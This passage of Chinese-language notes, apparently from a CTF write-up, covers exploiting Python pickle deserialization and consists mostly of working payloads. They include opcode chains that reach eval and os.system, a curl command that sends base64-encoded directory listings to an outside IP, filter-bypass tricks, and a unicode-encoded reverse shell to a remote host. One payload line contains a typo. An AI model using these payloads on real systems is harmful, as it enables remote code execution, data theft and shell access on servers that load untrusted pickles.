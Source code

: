 ```python
print(sys.modules)
# 输出全部模块
```
最终需要构造的payload是：`builtins.getattr(builtins.getattr(builtins.dict,'get')(builtins.golbals(),'builtins'),'eval')(command)`
写成opcode：
```text
b'''cbuiltins
getattr
(cbuiltins
getattr
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
)RS'__builtins__'
tRS'eval'
tR(S'__import__("os").system("whoami")'
tR.
'''
```
## 其他
1. 其他模块的load也可能触发pickle反序列化，如`numpy.load()`，使用numpy自身的数据失败后，可以尝试用pickle的格式导入。
2. 即使代码里面没有`import os`，GLOBAL指令也会自动导入。
3. 无回显时执行``os.system('curl your_server/`ls / | base64`)``即可在日志中查看结果。
payload:
```text
b'\x80\x03c__main__\nStudent\n)\x81}(V__setstate__\ncos\nsystem\nubVcurl 47.***.***.105/`ls / | base64`\nb.'
```

绕过各种限制的方式和jail一样
如双写
```python
pk = pickle.dumps(yourobject)
pk = pk.replace(b'os', b'ooss')
```
字符串拼接
```python
class A(object):
    def __reduce__(self):
        return eval,("__import__('o'+'s').system('env |tee b')",)
```

其他：
```python
a = base64.b64decode(session.get('ser_data')).replace(b"builtin", b"BuIltIn").replace(b"os", b"Os").replace(b"bytes", b"Bytes")

if b'R' in a or b'i' in a or b'o' in a or b'b' in a:  
    raise pickle.UnpicklingError("R i o b is forbidden")  

pickle.loads(base64.b64decode(session.get('ser_data')))
```
检测的是a有无riob，但是运行时还是ser_data，利用o和s连用组成os，替换为Os绕过
反弹shell用到`i`，会被检测，所以用`V`，能识别unicode编码
```text
b'''(cos
system
V'\u0073\u0068\u0020\u002d\u0069\u0020\u003e\u0026\u0020\u002f\u0064\u0065\u0076\u002f\u0074\u0063\u0070\u002f\u0031\u0033\u0039\u002e\u0032\u0032\u0034\u002e\u0031\u0033\u0030\u002e\u0031\u0038\u0033\u002f\u0031\u0030\u0030\u0030\u0032\u0020\u0030\u003e\u0026\u0031'
os.'''
```